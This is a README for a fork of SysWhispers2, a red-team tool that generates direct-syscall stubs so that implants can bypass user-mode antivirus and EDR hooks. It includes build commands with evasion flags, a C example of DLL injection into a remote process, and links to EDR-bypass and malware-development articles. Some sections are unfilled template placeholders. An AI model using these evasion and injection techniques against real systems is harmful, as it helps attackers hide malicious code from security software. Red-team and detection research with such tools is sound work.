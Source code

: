 ## 🚀 SysWhispers2

🔧 SysWhispers2 helps with evasion by generating header/ASM files that implants can use to make direct system calls, bypassing user-mode hooks. This fork includes additional customizations and improvements.

## 🔑 Key Differences from Original SysWhispers2
  ✅ Enhanced Features: [Describe modifications, e.g., "Added support for XYZ syscalls."]
  ✅ Compatibility: [Mention extended OS/toolchain support.]
  ✅ Optimizations: [Highlight performance/usability improvements.]

## 🛠 Features

✔ Generates header/ASM files for direct syscalls.

✔ Supports all core syscalls with cross-version compatibility.

✔ Randomized function name hashes for evasion.

✔ Lightweight & easy integration.

## 📥 Installation
      git clone https://github.com/your-username/SysWhispers2.git
      cd SysWhispers2
    python syswhispers.py --help
    
## 🚦 Usage Examples
  🔹 Generate Common Syscalls
  
    python syswhispers.py --preset common -o syscalls_common
    
  🔹 Generate Custom Syscalls

    python syswhispers.py --functions NtProtectVirtualMemory,NtWriteVirtualMemory -o syscalls_mem
    
  🔹 Example: DLL Injection with Direct Syscalls
  c
    
    #include "syscalls.h" // Generated header
    void InjectDll(HANDLE hProcess, const char* dllPath) {
    HANDLE hThread = NULL;
    LPVOID lpAllocationStart = nullptr;
    SIZE_T szAllocationSize = strlen(dllPath);
    LPVOID lpStartAddress = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");

    NtAllocateVirtualMemory(hProcess, &lpAllocationStart, 0, (PULONG)&szAllocationSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(hProcess, lpAllocationStart, (PVOID)dllPath, strlen(dllPath), nullptr);
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, lpStartAddress, lpAllocationStart, FALSE, 0, 0, 0, nullptr);
    }
    
## 📜 Supported Functions
  Using --preset common includes:

  - NtCreateProcess

  - NtOpenThread

  - NtReadVirtualMemory

  - NtAllocateVirtualMemory

  - ... and more.

<details> <summary>📂 Click to expand full list</summary>
[Include the same list as in the original README or update it if needed.]

</details>
🔌 Integration
Visual Studio
Copy generated files (*.h, *.c, *.asm) into your project.

Enable MASM in Project → Build Customizations.

Add files and configure platform settings (x86/x64).

# MinGW + NASM

    # x86 Example
    i686-w64-mingw32-gcc -c main.c syscalls.c -Wall -shared
    nasm -f win32 -o syscalls.x86.o syscalls.x86.nasm
    i686-w64-mingw32-gcc *.o -o output.exe
    Random Syscall Jumps (Evasion)
    Compile with -DRANDSYSCALL and use rnd ASM files:


    x86_64-w64-mingw32-gcc main.c syscalls.c syscalls.rnd.x64.s -DRANDSYSCALL -Wall -o output.exe
    

## Related Articles and Projects

- [@modexpblog](https://twitter.com/modexpblog): [Bypassing User-Mode Hooks and Direct Invocation of System Calls for Red Teams](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)
- [@hodg87](https://twitter.com/hodg87): [Malware Mitigation when Direct System Calls are Used](https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/)
- [@Cn33liz](https://twitter.com/Cneelis): [Combining Direct System Calls and sRDI to bypass AV/EDR](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) ([Code](https://github.com/outflanknl/Dumpert))
- [@0x00dtm](https://twitter.com/0x00dtm): [Userland API Monitoring and Code Injection Detection](https://0x00sec.org/t/userland-api-monitoring-and-code-injection-detection/5565)
- [@0x00dtm](https://twitter.com/0x00dtm): [Defeating Userland Hooks (ft. Bitdefender)](https://0x00sec.org/t/defeating-userland-hooks-ft-bitdefender/12496) ([Code](https://github.com/NtRaiseHardError/Antimalware-Research/tree/master/Generic/Userland%20Hooking/AntiHook))
- [@mrgretzky](https://twitter.com/mrgretzky): [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
- [@SpecialHoang](https://twitter.com/SpecialHoang): [Bypass EDR’s memory protection, introduction to hooking](https://medium.com/@fsx30/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6) ([Code](https://github.com/hoangprod/AndrewSpecial/tree/master))
- [@xpn](https://twitter.com/_xpn_) and [@domchell](https://twitter.com/domchell): [Silencing Cylance: A Case Study in Modern EDRs](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/)
- [@mrjefftang](https://twitter.com/mrjefftang): [Universal Unhooking: Blinding Security Software](https://threatvector.cylance.com/en_us/home/universal-unhooking-blinding-security-software.html) ([Code](https://github.com/CylanceVulnResearch/ReflectiveDLLRefresher))
- [@spotheplanet](https://twitter.com/spotheplanet): [Full DLL Unhooking with C++](https://ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)
- [@hasherezade](https://twitter.com/hasherezade): [Floki Bot and the stealthy dropper](https://blog.malwarebytes.com/threat-analysis/2016/11/floki-bot-and-the-stealthy-dropper/)
- [@hodg87](https://twitter.com/hodg87): [Latest Trickbot Variant has New Tricks Up Its Sleeve](https://www.cyberbit.com/blog/endpoint-security/latest-trickbot-variant-has-new-tricks-up-its-sleeve/)


## References to SysWhispers

- [@JFaust_](https://twitter.com/JFaust_): Process Injection [Part 1](https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/), [Part 2](https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/), and [Alaris loader](https://sevrosecurity.com/2020/10/14/alaris-a-protective-loader/) project ([Code](https://github.com/cribdragg3r/Alaris))
- [@0xPat](https://www.twitter.com/0xPat): [Malware Development Part 2](https://0xpat.github.io/Malware_development_part_2/)
- [@brsn76945860](https://twitter.com/brsn76945860): [Implementing Syscalls In The CobaltStrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
- [@Cn33liz](https://twitter.com/Cneelis) and [@_DaWouw](https://twitter.com/_DaWouw): [Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/) ([Code](https://github.com/outflanknl/InlineWhispers))
    
## ⚠️ Caveats
  ❌ Graphical subsystem syscalls (win32k.sys) are not supported.
  
  ❌ Tested on [Your Environments].

## 🙏 Credits
   Based on the original SysWhispers2 by @Jackson_T and @modexpblog.
   Additional contributions by Mangala-Mnmatharaja🎯.

## 📜 License
Apache License 2.0. See LICENSE[http://www.apache.org/licenses/] for details.
